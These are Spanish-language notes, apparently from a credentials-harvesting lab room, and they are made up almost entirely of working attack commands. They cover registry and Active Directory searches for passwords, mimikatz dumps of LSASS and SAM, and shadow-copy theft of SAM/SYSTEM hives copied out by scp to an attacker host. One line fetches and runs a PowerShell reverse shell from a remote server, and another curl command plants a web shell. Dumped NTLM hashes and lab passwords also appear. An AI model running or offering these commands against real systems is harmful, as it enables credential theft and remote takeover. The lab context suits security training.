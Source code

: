 
Machine IP: MACHINE_IP            Username: thm         Password: Passw0rd!


rdesktop -u thm -p Passw0rd! <IP_o_dominio>


xfreerdp /u:thm /p:Passw0rd! /v:10.201.52.15 /dynamic-resolution

## Como ejemplo de un comando de historial, un comando de PowerShell guarda los comandos ejecutados en un archivo de historial en un perfil de usuario, en la siguiente ruta: 

```bash
C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```


##  reg query que mencionas se utiliza para buscar contraseñas almacenadas en el registro de Windows (Registry). Es una técnica común en auditorías de seguridad o pruebas de penetración para encontrar credenciales guardadas de forma insegura. 


- reg query: Consulta el registro de Windows.
- HKLM o HKCU:
- HKLM (HKEY_LOCAL_MACHINE): Contiene configuraciones globales del sistema.
- HKCU (HKEY_CURRENT_USER): Contiene configuraciones específicas del usuario actual.
- /f password: Busca la cadena "password" (no distingue mayúsculas/minúsculas).
- /t REG_SZ: Filtra solo valores de tipo cadena (REG_SZ).
- /s: Realiza una búsqueda recursiva en todas las subclaves.



c:\Users\user> reg query HKLM /f password /t REG_SZ /s

 #OR

C:\Users\user> reg query HKCU /f password /t REG_SZ /s




a) Buscar en HKEY_LOCAL_MACHINE (HKLM)

reg query HKLM /f "flag" /t REG_SZ /s


    HKLM: Clave del registro que almacena configuraciones globales del sistema.

    /f "flag": Busca la cadena exacta "flag" (no distingue mayúsculas/minúsculas).

    /t REG_SZ: Filtra solo valores de tipo cadena (texto).

    /s: Búsqueda recursiva en todas las subclaves.

b) Buscar en HKEY_CURRENT_USER (HKCU)
cmd
reg query HKCU /f "flag" /t REG_SZ /s





reg query HKLM /f "flag" /t REG_SZ /s


password:  7tyh4ckm3



# Enumerar Usuarios y Verificar Descripciones
En AD, a veces las contraseñas se guardan accidentalmente en el campo description (descripción).
Puedes enumerarlo con estos métodos:

net user /domain




# Método 2: Con PowerShell (Más detallado)
powershell
Get-ADUser -Filter * -Properties Description | Where-Object { $_.Description -ne $null } | Format-Table Name,Description
Filtra usuarios con descripciones no vacías.

Si hay un usuario llamado "victim", revisa su descripción.

# Método 3: Búsqueda Directa de Contraseñas
powershell

Get-ADUser -Filter {Description -like "*password*"} -Properties * | Select-Object DistinguishedName, SamAccountName, Description



Import-Module ActiveDirectory
Get-ADUser -Filter * -Properties * | Select-Object DistinguishedName, SamAccountName, Description





Obenert el HASH NTLM

# usaremos wmic para crear una instantánea de volumen.
 cd

privilege::debug
token::elevate
lsadump::sam



wmic shadowcopy call create Volume='C:\'



IEX(New-Object Net.WebClient).DownloadString('http://10.8.163.249:8000/shell.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 10.8.163.249:8000 -Port 4444



curl -u http://10.8.163.249:8000/shell.php -o C:\xampp\htdocs\shell.php 




wmic shadowcopy call create Volume='C:\'

    Executing (Win32_ShadowCopy)->create()
    Method execution successful.
    Out Parameters:
    instance of __PARAMETERS
    {
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
    };


vssadmin list shadows



copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam

        1 file(s) copied.



copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.






reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg


reg save HKLM\system C:\users\Administrator\Desktop\system-reg


scp * kali@10.8.163.249:/home/kali/.


└─$ impacket-secretsdump -sam sam-reg -system system-reg LOCAL  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
                                                                                                                                                 
┌──(kali㉿kali)-[~/Downloads/CredentialsHarvesting]
└─$ 








smb://10.201.52.15/SYSVOL/
smb://10.201.52.15/NETLOGON/


















cd C:\Tools\Mimikatz\mimikatz.exe
!+
!processprotect /process:lsass.exe /remove
privilege::debug
sekurlsa::logonpasswords